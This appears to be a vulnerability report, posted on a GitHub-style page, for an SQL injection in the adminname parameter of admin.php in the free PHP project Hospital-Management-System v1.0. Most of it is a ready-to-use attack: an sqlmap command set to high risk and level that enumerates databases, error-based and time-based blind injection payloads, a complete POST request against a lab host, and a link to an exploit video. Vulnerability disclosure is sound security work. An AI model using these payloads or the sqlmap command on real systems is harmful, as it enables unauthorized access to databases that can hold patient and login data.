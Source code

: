 **[Hospital-Management-System v1.0 - SQLi](https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/unguardable/)
---

![image](https://user-images.githubusercontent.com/101170679/158853624-76a597d5-24e0-4e1a-a520-92c07b3d56f8.png)

### Description:
---
The vulnerability page is ```admin.php```


```http://you ip/HMS/admin.php```


Hospital-Management-System v1.0  
 
The ```adminname``` parameter in the ```admin.php``` page appears to be vulnerable to SQL injection attacks.


[+]sqlmap:


python3 sqlmap.py -r ```Your post packet.txt``` --random-agent --risk=3 --level=3 -dbs



[+] Payloads:
```
Parameter: adminname ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: adminname=admin' AND EXTRACTVALUE(4756,CONCAT(0x5c,0x717a706a71,(SELECT (ELT(4756=4756,1))),0x7170707a71)) AND 'hOiE'='hOiE&loginid=admin1&password=123456789&cnfirmpassword=123456789&select=Active&submit=%E6%8F%90%E4%BA%A4

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: adminname=admin' AND (SELECT 3117 FROM (SELECT(SLEEP(5)))xtHJ) AND 'beHE'='beHE&loginid=admin1&password=123456789&cnfirmpassword=123456789&select=Active&submit=%E6%8F%90%E4%BA%A4
---
```

[+]Post request package

```
POST /HMS/admin.php HTTP/1.1
Host: 192.168.10.7
Content-Length: 119
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.7
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.7/HMS/admin.php
Accept-Language: zh-CN,zh;q=0.9
Connection: close

adminname=admin1&loginid=admin1&password=123456789&cnfirmpassword=123456789&select=Active&submit=%E6%8F%90%E4%BA%A4

```
### In action:
---

![image](https://user-images.githubusercontent.com/101170679/158857104-ce7f9c15-5448-4c71-a347-071069d3ea94.png)

### Proof and Exploit:
---
[href](https://streamable.com/55gbsz)
